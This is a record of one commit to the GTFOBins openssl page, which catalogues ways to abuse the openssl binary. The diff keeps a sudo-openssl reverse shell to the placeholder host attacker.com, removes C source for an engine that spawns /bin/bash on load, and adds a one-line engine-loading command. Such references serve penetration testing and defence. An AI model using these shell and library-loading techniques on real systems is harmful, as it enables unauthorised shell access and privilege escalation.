

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 1400 px high, scrolled down 1601 px. Shown: the top 1387 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 2928 px from its top, so only the background shows below that.

Commit message:
Simplify and fix

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -79,43 +79,6 @@ functions:
         RHOST=attacker.com
         RPORT=12345
         mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
-
   library-load:
-    - description: |
-        To load an engine library, use the engine parameter:
-
-            openssl req -engine ~/engine.so
-
-        Engines can be created with the following contents.
-
-            #include <stdio.h>
-            #include <openssl/engine.h>
-
-            static const char *engine_id = "malengine";
-            static const char *engine_name = "Engine for executing arbitrary code";
-
-            static int bind(ENGINE *e, const char *id){
-                int ret = 0;
-                int status = system("/bin/bash");
-                if(!ENGINE_set_id(e,engine_id)){
-                    fprintf(stderr, "Failed\n");
-                    goto end;
-                }
-                if(!ENGINE_set_name(e,engine_name)){
-                    fprintf(stderr, "Failed\n");
-                    goto end;
-                }
-                ret = 1;
-                end:
-                    return ret;
-            }
-
-            IMPLEMENT_DYNAMIC_BIND_FN(bind)
-            IMPLEMENT_DYNAMIC_CHECK_FN()
-
-
-        and compiled as follows
-      code: |
-          gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o
-
+    - code: openssl req -engine ./lib.so
 ---
```
